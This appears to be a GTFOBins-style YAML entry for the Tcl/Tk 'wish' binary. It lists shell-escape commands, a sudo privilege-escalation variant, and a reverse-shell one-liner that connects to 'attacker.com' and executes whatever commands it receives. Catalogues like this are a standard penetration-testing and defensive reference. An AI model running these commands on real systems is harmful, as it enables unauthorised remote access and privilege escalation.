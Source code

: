```yaml
---
functions:
  execute-interactive:
  - code: |
      wish
      exec /bin/sh <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
  sudo-enabled:
  - code: |
      sudo wish
      exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

